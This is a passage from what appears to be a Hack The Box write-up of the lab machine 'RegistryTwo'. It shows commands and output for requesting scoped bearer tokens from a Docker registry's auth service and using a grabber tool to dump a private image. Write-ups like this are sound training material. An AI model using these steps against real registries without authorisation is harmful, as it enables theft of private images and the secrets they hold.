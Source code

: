 It worked perfectly, the tool managed to list the repos that are on this docker registry.

##### Obtain a Token to pull hosting-app

Now we try to dump this image.

```bash
┌──(ar0x㉿kali)-[~/…/HTB/Machines/RegistryTwo/DockerRegistryGrabber]
└─$ python3 drg.py -A 'eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6IlFYNjY6MkUyQTpZT0xPOjdQQTM6UEdRSDpHUVVCOjVTQk06UlhSMjpUSkM0OjVMNFg6TVVZSjpGSEVWIn0.eyJpc3MiOiJBY21lIGF1dGggc2VydmVyIiwic3ViIjoiIiwiYXVkIjoiRG9ja2VyIHJlZ2lzdHJ5IiwiZXhwIjoxNzAxNDU4NzU1LCJuYmYiOjE3MDE0NTc4NDUsImlhdCI6MTcwMTQ1Nzg1NSwianRpIjoiODg2MTczMjM0MTkzNTE0Nzc4OSIsImFjY2VzcyI6W3sidHlwZSI6InJlZ2lzdHJ5IiwibmFtZSI6ImNhdGFsb2ciLCJhY3Rpb25zIjpbIioiXX1dfQ.Vk1nXPHHAXmkNGzCpbIG-a5ui-jx52O-oTF6TRgP4hGp14oWBfvN0Dwagxn2IXLiXk9jhoZGclbbutNyvJQn0pV9hWCLrT3PCD6iyHiboyMwohUC_orImG1HghUhqxU-clpfthT-DitUMvNcL0g7aye1YnshR1e9a-DEZIEkOrlLsQFyzik3s4c3IPiHyZIcO49TPlJ_B27Wyuq85znCx-q8MoSEAlbxcv_GWD1R9iY756SICD7w0S9rdw6880L1UtzcPvKlQSIPqgasqptXss4NReDqJc9Ey4ZfufIqaMQV7LyaczPYCxCMuSMbzon0ID6Se2lF_eUS62uPQtE6oQ' --dump hosting-app https://www.webhosting.htb
Http Error: 401 Client Error: Unauthorized for url: https://www.webhosting.htb:5000/v2/hosting-app/tags/list
```

UPS, this time we got an error and the reason is exactly the same as the first failed request. The reason is clear, we should be requesting a new token for the new scope `hosting-app/tags/list` that we need to access 

```bash
┌──(ar0x㉿kali)-[~/…/HTB/Machines/RegistryTwo/DockerRegistryGrabber]
└─$ curl -s 'https://webhosting.htb:5001/auth?service=Docker%20registry&scope=repository:hosting-app:pull' -k | jq  
{
  "access_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6IlFYNjY6MkUyQTpZT0xPOjdQQTM6UEdRSDpHUVVCOjVTQk06UlhSMjpUSkM0OjVMNFg6TVVZSjpGSEVWIn0.eyJpc3MiOiJBY21lIGF1dGggc2VydmVyIiwic3ViIjoiIiwiYXVkIjoiRG9ja2VyIHJlZ2lzdHJ5IiwiZXhwIjoxNzAxNDU5MjQ3LCJuYmYiOjE3MDE0NTgzMzcsImlhdCI6MTcwMTQ1ODM0NywianRpIjoiODY1ODIxNTY5Nzk5NjU3OTUwOCIsImFjY2VzcyI6W3sidHlwZSI6InJlcG9zaXRvcnkiLCJuYW1lIjoiaG9zdGluZy1hcHAiLCJhY3Rpb25zIjpbInB1bGwiXX1dfQ.WFiwFzi_gjCq_nwQB7EJeYE30baPFmWRf-mGGxCM6Dai3ST4iV6tPOmGPB0HCf_N8mmvwy4dr4OjkUttQUFwSY83N75FQg40jrrhh_fFUpiLDIEewkOwxDRMeGA4M3hnVeHskAlfNLtquDq8mWPhpv_FtR9AoeStvjLhoc6Ft-6FUJzZKbTFbBgLKmff-Xb2fjWcpsNBMl_qOIwasIfp8JbBZWpk2FYYa2m1y9vq7ez6MQkWS4KL9lirhXRO1JTZBTVsF3NBcQCk9jhhdL2dJuD5vY1ggEcmD_0cIO9Q8uXIFJrG_WtSj6vy10GOnABPRGCFV0MNLfL8gyNzQD4eAA",
  "token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6IlFYNjY6MkUyQTpZT0xPOjdQQTM6UEdRSDpHUVVCOjVTQk06UlhSMjpUSkM0OjVMNFg6TVVZSjpGSEVWIn0.eyJpc3MiOiJBY21lIGF1dGggc2VydmVyIiwic3ViIjoiIiwiYXVkIjoiRG9ja2VyIHJlZ2lzdHJ5IiwiZXhwIjoxNzAxNDU5MjQ3LCJuYmYiOjE3MDE0NTgzMzcsImlhdCI6MTcwMTQ1ODM0NywianRpIjoiODY1ODIxNTY5Nzk5NjU3OTUwOCIsImFjY2VzcyI6W3sidHlwZSI6InJlcG9zaXRvcnkiLCJuYW1lIjoiaG9zdGluZy1hcHAiLCJhY3Rpb25zIjpbInB1bGwiXX1dfQ.WFiwFzi_gjCq_nwQB7EJeYE30baPFmWRf-mGGxCM6Dai3ST4iV6tPOmGPB0HCf_N8mmvwy4dr4OjkUttQUFwSY83N75FQg40jrrhh_fFUpiLDIEewkOwxDRMeGA4M3hnVeHskAlfNLtquDq8mWPhpv_FtR9AoeStvjLhoc6Ft-6FUJzZKbTFbBgLKmff-Xb2fjWcpsNBMl_qOIwasIfp8JbBZWpk2FYYa2m1y9vq7ez6MQkWS4KL9lirhXRO1JTZBTVsF3NBcQCk9jhhdL2dJuD5vY1ggEcmD_0cIO9Q8uXIFJrG_WtSj6vy10GOnABPRGCFV0MNLfL8gyNzQD4eAA"
}
```

So I found the scope we need to download the image on [StackOverflow](https://stackoverflow.com/questions/71409458/how-to-download-docker-image-using-http-api-using-docker-hub-credentials) under the section `Get a token (specific to Docker Hub, each registry may have different auth methods and servers):`.

So now we can actually dump the blob with this token. Lets do it.
